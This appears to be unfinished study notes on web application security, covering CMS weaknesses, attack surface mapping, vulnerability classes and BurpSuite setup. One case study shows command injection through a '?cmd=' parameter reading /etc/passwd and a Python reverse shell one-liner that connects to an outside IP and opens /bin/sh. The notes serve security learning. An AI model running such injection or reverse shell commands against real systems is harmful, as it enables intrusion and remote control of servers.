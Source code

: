 # Web Application Basics & Exploitation
- Internet Workflow
  ![image](https://github.com/user-attachments/assets/4910ffa0-592d-42ab-955e-c8952e1ec69e)

- Web Application Architecture
  ![image](https://github.com/user-attachments/assets/73c7c49b-b8d5-4801-b5f1-a67680224044)
- Content Management Systems (CMS) offers a flexible, back-end interface for users to edit, modify, and publish content on a website. CMS are fully managed by frameworks
- Over a third of websites online are powered by four key platforms: WordPress, Joomla, Drupal and Magento
- CMS can be hacked due to the following reasons:
  - Outdated version
  - Inexperienced administrators
  - Wide permissions to normal users
  - Malicious plugins
  - Phishing attempts
  - Few are open source



## Custom Web Application Exploitation
#### Case Study: Threat Actor Attempts to Compromise an Organisation-managed Website
1. A website's phpinfo() page
   ![image](https://github.com/user-attachments/assets/cbfbcbe7-1759-4771-918c-33e1f3c5d96d)
2. Execute commands by adding `/?cmd=whoami` at the end of the IP address/URL returns `apache`
3. Adding `/?cmd=hostname` returns `ip-10-1-1-155.us-east-2.compute.internal`
4. Adding `/?cmd=cat /etc/passwd` returns the following
   ![image](https://github.com/user-attachments/assets/9b9e579d-1944-4e78-8343-bef641d6b518)
5. To make the output readable, add `view-source:` before http of the URL
   ![image](https://github.com/user-attachments/assets/183f8a0d-8619-4dcb-82c8-95a3bc20d6e6)
6. The user runs `nc -nlvp 4443` on their system to start Netcat in listening mode (`-l`), does not resolve DNS lookups (`-n`), provides verbose output (`-v`) and specifies port 4443 (`-p 4443`) to listen for incoming connections on that port
7. The following command is added after `/?cmd=` after the URL to establish a reverse shell connection to the attacker's machine
   ```
   python -c 'import socket,subprocess,os;
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(("44.202.84.194",4443));
   os.dup2(s.fileno(),0);
   os.dup2(s.fileno(),1);
   os.dup2(s.fileno(),2);
   subprocess.call(["/bin/sh","-i"])'
   ```
    ![image](https://github.com/user-attachments/assets/34fea118-b70d-47f3-b4c3-026d58a256eb)
8. Once the connection is established, commands like `/sbin/ifconfig` and `ps-aux` can be executed to get more details








#### Case Study: Threat Actor Attempts to Compromise WordPress
[Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp) by Kamil Vavra on GitHub

![image](https://github.com/user-attachments/assets/2c960e13-4ed8-4095-b508-f60cd9e19554)
[Botnet of Infected WordPress Sites Attacking WordPress Sites](https://www.wordfence.com/blog/2018/12/wordpress-botnet-attacking-wordpress/) by Wordfence

#### Custom Code (Made from scratch)
- Developer implements the designs / workflow as per the requirement of the project
- Ease of fulfilling the updates as per the requirement, but small update needs to be fixed by a professional developer

#### Hacking websites made from scratch
- Overly misconfigured setup
- Bad business logic
- Vulnerable libraries in the languages
- Integration with multiple other frameworks / languages
- Chaining multiple vulnerabilities
- Other attack vectors

#### Mapping attack surface
![image](https://github.com/user-attachments/assets/9af95055-c09e-4ba3-a8ae-21ae05b5c5a0)
- Attack surface analysis is the mapping of part of a web application that needs to be analysed and tested for security vulnerabilities
- Used by security researchers to understand the in-depth working of the web app
- The main aim is to identify the attack vectors that can be leveraged externally

#### Points worth the time investment
- Login/Logout Fields
- Admin Spaces
- Logic Workflow
- Files uploaded by users
- Extranet interfaces (if any)
- Communication with other applications / systems via interfaces
- Custom implemented protocols / APIs etc
- Critical libraries like : Authentication / Authorization / Session management etc

#### Validate the findings
- Enumeration is the key, take your time to analyse the application workflow
- Identify misconfigurations that are not baselining with the standards
- Identify the risk associated with the identified mis-configurations
- Perform Penetration Testing
- Validate the findings
- Document & Report as required

#### Vulnerabilities
- Server-side Vulnerabilities
  - Command Injection
  - Directory Traversal
  - Server-side Request Forgery (SSRF)
  - SQL Injection
  - File Upload
  - Information Disclosure
- Client-side Vulnerabilities
  - Cross-site Scripting (XSS)
  - Clickjacking
  - Cross-side Request Forgery (CSRF)
  - Cross-origin Resource Sharing (CORS)


## Configure Web Application Debugging & Exploitation Tool (BurpSuite)
1. In Kali Linux VM, start BurpSuite. Choose Temporary Projects and use Burp defaults
2. To configure Proxy in Firefox browser, go to Settings, search for proxy. Select Manual proxy configuration, insert `127.0.0.1` as HTTP Proxy with port 8080. Use the same proxy for HTTPS
   ![image](https://github.com/user-attachments/assets/fad4ff3b-4266-431d-b9de-b8f3e6444180)
3. In a new tab, go to `localhost:8080`. If it works, the Burp Suite Community Edition localhost webpage would appear


## Capture & Modify Requests Using BurpSuite
#### Understanding the Request-Response Model
- The Accounting of who, what and when made the request is not done on the connection endpoints
- In Simple Words, Each request is replied with a response which is not accounted on the either connection endpoints
- Example of the Request-Response Model can be seen below
  ![image](https://github.com/user-attachments/assets/ad7f4607-6599-4ab1-a75f-4483bf90b6d0)

#### Understanding HTTP Request
- When we enter a URL in our browser to view a web page, our browser makes a HTTP Request. A typical HTTP Request looks like
  ![image](https://github.com/user-attachments/assets/19a2b30d-8357-4ce0-a236-d83607831a39)
- HTTP defines a set of request methods to indicate desired action
  - GET method is used to retrieve data
  - POST method is used when user wants to submit entity to specified resource
  - PUT method is used when user wants to replace existing object in the target URL with something else
  - HEAD method is identical to GET, but HEAD is made to retrieve only HEAD without Body in response
  - DELETE method is used to delete specified resource
  - CONNECT method is used to create a tunnel to the server identified by target resource
  - OPTIONS method is used to describe the communication options for the target resource
  - TRACE method performs a message loop-back test along the path to the target resource
  - PATCH method is used to apply partial modifications to a resource
- We can use the `curl` command with the OPTION method to provide all the methods allowed on a specific resource
  `curl -v -X OPTIONS http://www.example.com`
  ![image](https://github.com/user-attachments/assets/8d9a4f37-55b0-4d9e-88ce-70ce045a1fe6)
- The HTTP Host header specifies the domain name of the server and the TCP port number on which the server is listening. If the request is made to the web server with the HTTPS protocol, the default syntax is used
  Syntax of Host header: `Host: <host>:<port>` | `Host: www.example.com:4443`
- The HTTP User-Agent header is a characteristic string that lets servers and network peers identify the application, operating system, vendor, and/or requesting user-agent version
  Syntax of User-Agent header: `User-Agent: <product>/<product-version> <comment>` | `User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.6`
- 


#### Understanding HTTP Response
- 

    

  
1. After configuring Proxy in Firefox browser, navigate to the Proxy tab in BurpSuite. Switch on the Intercept to intercept requests made to server
2. 



## Internationalised Domain Names (IDN) Homograph Attacks

